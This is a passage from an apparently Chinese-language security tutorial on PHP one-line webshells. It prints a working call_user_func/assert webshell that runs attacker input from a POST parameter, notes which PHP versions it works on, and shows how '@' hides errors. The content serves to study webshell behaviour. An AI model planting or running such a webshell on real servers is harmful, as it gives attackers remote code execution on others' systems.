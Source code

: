 所以我们构造的一句话木马为：

``` php
<?php
@call_user_func(assert,$_POST['a']);
?>
```

 ---------------
 
 
## call_user_func 版本限制

在我的测试环境（PHP Version 7.3.4），这个 webshell 是无法回显的：

![title](https://leanote.com/api/file/getImage?fileId=5da82bffab64416e4700293b)

但是这样就可以回显：

![title](https://leanote.com/api/file/getImage?fileId=5da82c31ab64416e4700293c)

原因是为什么呢？

还是前面说的：


![title](https://leanote.com/api/file/getImage?fileId=5da826a4ab64416c4c002aa1)

给 assert() 函数传入字符串参数，这个特性在 7.2 禁用。

因为通过超全局常量 `$_GET['']`获取的攻击者输入是字符串，这样传入assert函数就触发了禁用。

但是直接`assert(phpinfo())`传入的参数是函数，所以就不会触发函数禁用，可以正常回显。

**让我们换个php 版本来进行尝试：**

换到 PHP Version 7.1.9：

![title](https://leanote.com/api/file/getImage?fileId=5da82f8fab64416e4700294a)

也不可以。

换到 PHP Version 7.0.12：

![title](https://leanote.com/api/file/getImage?fileId=5da82fd8ab64416e4700294b)

就可以正常回显了。

也就是说这个禁用特性其实是从 php 7.1 版本开始的，并不是 7.2 版本才开始。所以 call_user_func + assert 构造的一句话木马在 php 7.0 版本及以下可以使用。

**演示一下加`@`和不加`@`的区别：**

在 call_user_func 前面可以加一个 `@`，@是忽略可能出现的错误。

输入一个 Windows 操作系统没有的命令 id，不加 @ 会显示出具体报错：

![title](https://leanote.com/api/file/getImage?fileId=5da8317aab64416c4c002aef)

加了 @ 就不会显示报错：
